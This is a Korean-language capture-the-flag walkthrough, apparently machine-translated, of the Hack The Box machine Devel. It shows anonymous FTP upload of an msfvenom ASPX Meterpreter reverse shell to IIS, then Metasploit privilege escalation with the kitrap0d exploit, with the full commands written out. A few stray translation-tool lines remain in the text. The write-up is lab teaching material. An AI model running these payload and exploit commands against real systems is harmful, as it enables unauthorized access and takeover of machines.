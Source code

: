 ```yaml
---
title: "Devel  Hack The Box 워크스루"
description: ""
coverImage: "/assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png"
date: 2024-06-19 01:18
ogImage: 
  url: /assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png
tag: Tech
originalTitle: "Devel — Hack The Box Walk-through"
link: "https://medium.com/@jaylinscorner/devel-hack-the-box-walkthrough-6a04f5f0b8a3"
isUpdated: true
---
```






안녕하세요!

오늘은 과거에 완료한 Hack The Box 머신인 Devel을 살펴보겠습니다. 이 머신은 Windows 머신에서의 지역 권한 상승을 강조합니다.

이 머신은 여전히 Hack The Box에서 이용 가능한 쉬운 난이도의 은퇴된 머신입니다. 이 글을 쓰는 시점에서는 불행히도 이 머신에 접근하려면 VIP 멤버십이 필요합니다. 제가 이 머신을 루팅했을 때는 무료였지만, 곧 다시 무료가 될 수도 있습니다.

더 이상 말 늑대, 시작해 봅시다!

<div class="content-ad"></div>

마크다운 형식으로 테이블 태그를 변경해주세요.

<div class="content-ad"></div>

우리가 포트 스캔 결과 익명 FTP 로그인이 허용되어 있음을 알려주었기 때문에 익명으로 FTP에 로그인을 시도해 볼 수 있습니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_2.png)

우리는 성공적으로 포트 21인 FTP에 익명으로 로그인했습니다. 현재 디렉토리에 있는 파일 목록을 볼 수 있습니다.

이 서버가 Microsoft IIS/7.5를 실행 중이기 때문에, ASP 및 ASPX 확장자를 가진 코드 실행을 허용하는 이 버전의 IIS에서 익명으로 파일을 업로드하는 시도를 해볼 수 있습니다.

<div class="content-ad"></div>


<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_3.png" />

랜덤 ASPX 파일을 업로드한 후 익명 사용자의 업로드 기능을 이용할 수 있다는 점을 알 수 있습니다.

ASPX 파일을 업로드할 수 있으므로 ASPX 역술을 생성해볼 수 있습니다.

터미널에서 Metasploit Payload Generator를 엽니다.


<div class="content-ad"></div>

```js
msfvenom
```

그런 다음, ASPX 역술 쉘을 만들려면 다음을 사용합니다:

```js
msfvenom -f aspx -p windows/meterpreter/reverse_tcp LHOST=(내_IP) LPORT=4444 -o moe.aspx
```

msfvenom을 사용하여 역술 쉘을 얻을 수 있는 올바른 페이로드를 생성하려고 합니다. 이 경우 Windows reverse_tcp 페이로드를 사용하고 있으며, 이는 Windows 상자이기 때문입니다. 선택한 옵션은 Meterpreter입니다.

<div class="content-ad"></div>

다음은 플래그입니다:

- -f: 출력 형식
- -p: 사용할 페이로드 (우리 시나리오에서는 Windows Reverse TCP)
- LHOST: 우리 자신입니다; 이 페이로드의 역쉘 수신 측에 있을 것입니다. 우리가 수신 대기 중인 IP를 입력하는 곳입니다 (eth0 또는 tun0)
- LPORT: 우리가 수신 대기할 포트, 보통 기본값으로 4444를 유지합니다
- -o: 서버에 업로드된 페이로드를 포함하는 출력 파일

이 파일을 업로드 시도하면 성공합니다. 이제 업로드한 파일과 상호 작용하기 위해 리스너를 구성합니다.

터미널에서 msfconsole을 실행하여 Metasploit으로 리스너를 구성합니다:

<div class="content-ad"></div>


msfconsole


그런 다음 사용할 exploit으로 이동하겠습니다.


use exploit/multi/handler 


그런 다음 옵션을 우리가 원하는 대로 구성합니다.

<div class="content-ad"></div>

해당 표식을 마크다운 형식으로 변경하시면 됩니다.

<div class="content-ad"></div>


```js
set payload windows/meterpreter/reverse_tcp
```

참고: 이번에는 세션 ID를 실행하기 전에 기억하는 것이 중요합니다. 나중에 사용할 것입니다.

이제 실행해 봅시다!! :

```js
run
```  


<div class="content-ad"></div>

우리는 브라우저에서 ASPX 역쉘 파일을 다음과 같이 로드합니다:

```js
10.10.10.5/{File_Name}
```

이제 터미널에서 호스트 OS 안에 있다는 것을 확인할 수 있습니다

<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_4.png" />

<div class="content-ad"></div>

이제 파일 시스템으로 이동해 보아야 합니다. 가능하면 C 드라이브로 이동하겠습니다.

그래서 다음과 같이 세션을 백그라운드로 설정합니다:

```js
background
```

그런 다음, 획득한 시스템에서 로컬 취약점을 찾기 위해 Metasploit을 다시 엽니다. msfconsole을 열고 exploit/multi/handler로 이동한 다음 post/multi/recon/local_exploit_suggester로 넘어갑니다.

<div class="content-ad"></div>

```js
use post/multi/recon/local_exploit_suggester
```

![Image 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_5.png)

이전에 메모한 세션 ID를 여기에 입력하겠습니다:

![Image 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_6.png)


<div class="content-ad"></div>

우리의 세션 ID를 구성한 후에 이를 실행할 거에요. 이 모듈은 Windows에서 로컬 악용을 찾을 거에요.

실행이 완료되면 Metasploit이 사용을 제안하는 것을 볼 수 있을 거에요:

```js
exploit/windows/local/ms10_015_kitrap0d
```

이 모듈은 Windows Machines에서 시스템 권한으로 새로운 세션을 만들 것이에요. 이 모듈은 CVE-2010–0232와 관련된 악용인데요, 이는 Microsoft Windows 커널 예외 처리기 취약점에 관련된 것이에요.

<div class="content-ad"></div>

우리는 옵션을 조정합니다...

맞죠!

```js
show options
```

들을 호스트를 설정해요. 그리고 우리의 리스닝 포트를 4445로 설정할 거에요; 다른 포트를 사용하여 exploit을 수행할 거예요. 마지막으로 세션을 리스너와 동일하게 만들 거에요.

<div class="content-ad"></div>

그럼 이제 실행해 봅시다!

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_7.png)

우리의 Exploit이 완료된 것 같은데 성공했을까요?

Meterpreter에서 명령 셸을 사용합니다.

<div class="content-ad"></div>

접근 성공! 이제 cd ..를 사용하여 C 드라이브로 이동합니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_8.png)

C 드라이브의 내용을 분석하고 사용자 디렉토리가 흥미로울 수 있다는 것을 알 수 있었습니다. 해당 디렉터리로 이동하면 관리자 및 바비스와 같이 발견할 가치가 있는 2개의 사용자 디렉토리가 보입니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_9.png)

<div class="content-ad"></div>

해당 디렉터리로 이동하고 두 가지 모두 사용자 및 루트 권한을 얻어야 이 상자를 루팅할 수 있어요!

![이미지 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_10.png)

![이미지 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_11.png)

이것은 제 첫 번째 게시된 Hack The Box 워크스루입니다. 이 워크스루를 작성하는 것은 나에게 유용한 경험을 얻게 도와주고 동시에 다른 사람들이 학습하는 데 도움이 되기도 해요!

<div class="content-ad"></div>

도움이 되었다면 알려주세요. 또한 Linkedin에서 연락해도 괜찮습니다:

www.linkedin.com/in/jaylin-nelson

참고 문헌: